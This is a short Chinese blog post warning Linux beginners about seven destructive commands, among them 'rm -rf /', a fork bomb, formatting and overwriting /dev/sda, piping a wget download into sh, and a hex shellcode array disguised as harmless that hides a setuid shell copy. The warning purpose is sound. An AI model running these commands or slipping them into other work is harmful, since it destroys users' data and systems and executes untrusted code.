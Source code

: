 Title: 7 个致命的 Linux 命令
Date: 2008-11-21 10:04
Author: toy
Category: Cli
Tags: Commands
Slug: the-7-deadly-linux-commands

如果你是一个 Linux 新手，在好奇心的驱使下，可能会去尝试从各个渠道获得的命令。以下是 7 个致命的 Linux 命令，轻则使你的数据造成丢失，重则使你的系统造成瘫痪，所以，你应当竭力避免在系统中运行它们。

<!-- PELICAN_END_SUMMARY -->

1.  `rm -rf /`

    此命令将递归并强制删除 / 目录下的所有文件。

2.  这是 rm -rf / 的 hex（十六进制）版本，很能迷惑 Linux 用户。

        char esp[] __attribute__ ((section(".text"))) /* e.s.p release */
            = "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68"
            "\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99"
            "\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7"
            "\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"
            "\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"
            "\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"
            "\x6e\x2f\x73\x68\x00\x2d\x63\x00"
            "cp -p /bin/sh /tmp/.beyond; chmod 4755
            /tmp/.beyond;";


3.  `mkfs.ext3 /dev/sda`

    这将对硬盘进行重新格式化，自然，硬盘上的所有数据将灰飞烟灭。

4.  `:(){ :|:& };:`

    著名的 fork 炸弹，此命令将告诉你的系统执行海量的进程，直到你的系统僵死。

5.  `any_command > /dev/sda`

    使用该命令，原始数据将被写到块设备，其结果是造成数据丢失。

6.  `wget http://some_untrusted_source -O- | sh`

    不要从不信任的地方下载东西，这可能会获取恶意代码。

7.  `mv /home/yourhomedirectory/* /dev/null`

    此命令将移动主目录中的所有文件到一个不存在的地方，你将再也看不到那些文件。

如果你认为还有其他致命的 Linux 命令，那么请在留言中告诉我们。

[via [TECH SOURCE FROM BOHOL](http://www.junauza.com/2008/11/7-deadly-linux-commands.html)]
